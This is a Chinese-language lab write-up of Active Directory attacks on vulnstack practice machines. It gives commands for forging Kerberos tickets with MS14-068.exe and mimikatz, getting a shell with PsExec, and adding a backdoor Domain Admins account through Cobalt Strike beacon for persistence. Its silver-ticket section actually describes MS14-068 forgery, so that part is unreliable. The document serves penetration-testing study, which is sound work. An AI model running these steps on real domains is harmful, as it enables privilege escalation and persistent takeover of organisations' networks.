








最近做了一些靶场域渗透的实验，记录下一些关于白银票据和黄金票据的问题。


## 0x01 白银票据的利用

### 1 环境信息

> 域控DC
> 192.168.183.130
>
> 域内主机win7
> 192.168.183.129

### 2 使用场景

在拿到一个普通的域成员权限的时候，可以尝试使用ms14-068伪造一个票据，从而让我们的域用户有域管理员权限。

### 3 利用过程

说明：这里是用==vulnstack4靶机笔记==的实验环境，来演示一下利用过程

获取sid `whoami /all` 



#### 伪造票据

MS14-068.exe -u 用户名@域名 -p 密码 -s sid -d 域控服务器ip或者机器名

```bash
MS14-068.exe -u douser@demo.com -p Dotest123 -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130
```



#### 注入票据

```
mimikatz.exe "kerberos::purge"
mimikatz.exe "kerberos::ptc 证书路径"
```



#### 验证

查看票据是否注入成功，可以使用mimikatz的kerberos:list，也可以使用cmd的klist命令。





#### 利用

白银票据的利用我推荐使用PsExec.exe工具，这个工具可以产生一个交互的cmd。 用法：`PsExec.exe \\要访问的域机器名 cmd`






## 0x02 黄金票据的利用

### 1 环境信息

> 域控DC Server2012
> DC：10.10.10.10	
>
> 域内主机
> WEB：10.10.10.80 和 192.168.111.80	Server2008
> PC：   10.10.10.201 和 192.168.111.201	win7

### 2 使用场景

我们拿下域控，但是因为版本原因我们抓不到域管理的明文密码，我们需要进行横向的渗透，这时候可以使用黄金票据。

另外，做权限维持方式很多，如粘滞键、注册表注入、计划任务、影子用户等等。由于本次是拿到域控，那么这种情况下，我们使用黄金票据是一种非常好的权限维持的方法。

### 3 利用过程

这里我选用了==vulnstack2靶机笔记的权限维持==部分来验证

黄金票据就是伪造krbtgt用户的TGT票据，krbtgt用户是域控中用来管理发放票据的用户，拥有了该用户的权限，就可以伪造系统中的任意用户。

黄金票据能让黑客在拥有普通域用户权限和KRBTGT账号的哈希的情况下，获取域管理员权限。我们上面已经得到域控的 system权限了，还可以使用黄金票据做权限维持，当失去域控system权限后，再通过域内其他任意主机伪造黄金票据来重新获取system权限。

这里我们已经获取到了KRBTGT账户的哈希值


并且也拿到了域的SID值,去掉最后的-1001


接下来就可以伪造一张黄金票据，我们选择最边缘的web这台主机


伪造黄金票据成功


这里为了测试用了PC，一开始是无法访问域控目录的



生成黄金票据后


那么即使域控这台主机权限掉了或密码被修改了，我们依然可以使用边缘主机的黄金票据模拟获得最高权限，由于跳过AS验证，也就无需担心域管密码被修改

PC主机执行`klist`


添加域管账户

```
beacon> shell net user hack 123qwe!@# /add /domain
beacon> shell net user /domain
beacon> shell net group "Domain Admins" hack /add /domain
```


在域控上查看域管账户,添加成功


## 0x03 两者区别

`黄金票据：`是直接抓取域控中ktbtgt账号的hash，来在client端生成一个TGT票据（门票发放票），那么该票据是针对所有机器的所有服务。
`白银票据：`实际就是在抓取到了域控服务hash的情况下，在client端以一个普通域用户的身份生成ST票据（门票），这样的好处是门票不会经过KDC（密钥分发中心），从而更加隐蔽，但是伪造的门票只对部分服务起作用，如cifs（文件共享服务），mssql，winrm（windows远程管理），DNS等等。